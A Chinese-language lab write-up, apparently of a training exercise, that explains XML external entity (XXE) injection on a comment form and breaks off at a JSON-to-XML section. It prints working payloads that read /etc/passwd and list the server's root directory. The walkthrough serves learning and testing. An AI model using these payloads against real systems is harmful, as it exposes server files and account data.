 路径注入因为比较简单，在上一篇

## 4 XXE

### 4.1 简单XXE

抓包一个普通的评论，可以看到内容是xml
![](../../images/Pasted%20image%2020241125171936.png)

大概是修改这个xml内容，让它把我们想看到的东西打印出来

DOCTYPE 声明`<!DOCTYPE author [     <!ENTITY js SYSTEM "file:///etc/passwd">]>`  
- **`<!DOCTYPE author [...]>`**：定义了一个名为 `author` 的文档类型。
- **`<!ENTITY js SYSTEM "file:///etc/passwd">`**：定义了一个外部实体 `js`，它指向服务器上的 `/etc/passwd` 文件。这个文件在类 Unix 系统中通常包含用户账户信息。

XML 元素使用`<author>&js;</author>   <comment>  <text>1111</text></comment>`  
- **`<author>&js;</author>`**：这里的 `&js;` 是对外部实体的引用。当 XML 解析器处理这个元素时，它会尝试加载 `file:///etc/passwd` 文件的内容，并将其插入到 `<author>` 元素中。
- **`<comment> <text>1111</text></comment>`**：这是一个普通的 XML 元素，包含一个子元素 `<text>`，其内容为 `1111`。这个部分与外部实体无关。

也就是DOCTYPE定义一个东西，&<u>name</u>;引用。理解一下

```xml
<?xml version="1.0"?>
<!DOCTYPE author [
  <!ENTITY js SYSTEM "file:///etc/passwd">]>
<comment>
  <text>&js;</text></comment>
```

这个是输出`/etc/passwd`文件，虽然不是题目但是直接过了

![](../../images/Pasted%20image%2020241125171919.png)
效果：
![](../../images/Pasted%20image%2020241125172347.png)

虽然这时候过了，但是不是题目要求的根目录，改了一下

```xml
<?xml version="1.0"?>
<!DOCTYPE mytest [
  <!ENTITY xxe SYSTEM "file:///">]>
<comment>
  <text>&xxe;</text></comment>
```

![](../../images/Pasted%20image%2020241125172525.png)

### 4.2 json改xml

抓包发的是
![](../../images/Pasted%20image%2020241125173435.png)
